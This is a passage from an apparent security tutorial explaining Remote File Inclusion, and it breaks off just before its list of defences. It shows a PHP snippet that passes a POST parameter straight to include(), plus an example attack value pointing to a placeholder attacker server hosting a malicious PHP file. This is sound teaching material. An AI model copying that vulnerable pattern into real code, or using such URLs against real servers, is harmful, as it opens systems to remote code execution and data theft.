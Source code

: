 ```yaml
---
description: https://www.indusface.com/learning/file-inclusion-attacks-lfi-rfi/
---
```


# 6.3.2 Remote File Inclusion (RFI)

## Remote File Inclusion (RFI)

In an RFI attack, an attacker exploits a vulnerability to include files from a remote server or location, usually using user-controllable input.

RFI attacks can lead to remote code execution, allowing the attacker to run arbitrary code hosted on a remote server.

RFI attacks are more dangerous than LFIs because they enable attackers to execute malicious code on the target server, potentially compromising security.

#### **Scenario Example**

```php
<?php
$templateUrl = $_POST[‘template_url’];
// Fetch and display the custom template
include($templateUrl);
?>
```

&#x20;In this scenario, the $template\_url variable is taken from user input (in this case, from a POST request), and it’s used in the include function to fetch and display the custom template.

This code presents a potential RFI vulnerability. The attacker would craft a POST request with a custom template URL pointing to a remote file that contains their malicious PHP code. For example, the attacker could set the template\_url parameter in the POST request to something like:

&#x20;**http://attacker-controlled-server/malicious-template.php**

When the server processes the POST request, it retrieves the URL content provided in the template\_url parameter and includes it in the script using the include function. In this case, it would attempt to fetch and execute the remote file “**http://attacker-controlled-server/malicious-template.php**.”

This code will be executed within the blog platform’s server, potentially compromising the system, stealing data, or performing any other malicious actions the attacker has programmed.

Protect against RFI in this situation by adhering to these security measures:
